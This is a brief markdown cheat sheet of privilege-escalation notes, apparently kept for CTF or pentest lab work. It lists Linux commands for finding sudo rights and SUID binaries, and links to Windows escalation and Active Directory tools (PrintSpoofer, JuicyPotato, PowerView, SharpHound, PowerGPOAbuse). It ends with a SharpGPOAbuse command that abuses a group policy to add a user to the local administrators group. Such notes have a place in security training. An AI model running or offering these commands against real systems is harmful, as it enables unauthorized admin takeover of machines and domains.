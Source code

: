 # Linux Privesc
```sudo -l
```
```
find / -type f -perm -u=s 2>/dev/null
```
```
find / -type f -perm -4000 2>/dev/null
```
# Window Privesc
## PrintSpoofer.exe
```
https://github.com/itm4n/PrintSpoofer
```
## JuicyPotato
```
https://github.com/ohpe/juicy-potato
```
## Powerview
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```
## SharpHound
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```
## PowerGPOAbuse
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```
